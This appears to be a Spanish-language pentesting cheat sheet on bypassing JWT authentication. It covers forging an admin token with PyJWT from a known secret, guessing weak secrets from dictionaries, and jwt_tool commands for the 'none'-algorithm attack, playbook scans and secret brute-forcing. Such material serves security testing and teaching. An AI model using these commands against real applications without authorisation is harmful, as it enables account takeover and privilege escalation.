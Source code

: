- # ByPass de JWT con secret 
### Por otro lado, una manera de burlar las autenticaciones de JWT es teniendo el **secret** en donde podríamos generar JWT con privilegios elevados.

```bash
pip3 install PyJWT
```
### Una vez instalado el modulo **PyJWT** podríamos importar la libreria **jwt** para generar nuestros propios jwt con el **secret** que tengamos.

```python
import jwt
jwt.encode({'username':'admin'},{secret},algorithm="HS256")
```

- # Secret comun 
### Otro caso es cuando tenemos que la aplicación **SI VALIDA** el **VERIFY SECRET** de nuestro JWT, pero existe la posibilidad de que es secret sea común y este en diccionarios tipicos, por lo que podríamos probar en la página [JWT.io](https://jwt.io) de ingresar un secreto débil típico que se encuentre en un diccionario de fuerza bruta e ir probando. 

-----
# Jwt_tool
### Otra herramienta que podemos utilizar es la herramienta [jwt_tool](https://github.com/ticarpi/jwt_tool) la cual nos permite realizar diversas tareas relacionadas con los JWT Tokens como **decodificarlos**, **análisarloos**, **manipularlos**, **generarlos** y realizar ataques de **fuerza bruta y fuzzing**.

```bash
# Instalación 
sudo git clone https://github.com/ticarpi/jwt_tool

# Usage

# Decodificar JWT
python3 jwt_tool.py '{jwt}' 

# Ataques comunes (PlayBook)
python3 jwt_tool.py -t {url} -rh "{token_header} {toekn} ('Authorization: Barer {jwt}')" -M pb

# Realizar ataques 

# Algoritmo:none
python3 jwt_tool.py '{jwt}' -X a

# Brute Force
python3 jwt_tool.py '{jwt}' -C -d {secrets_list}

```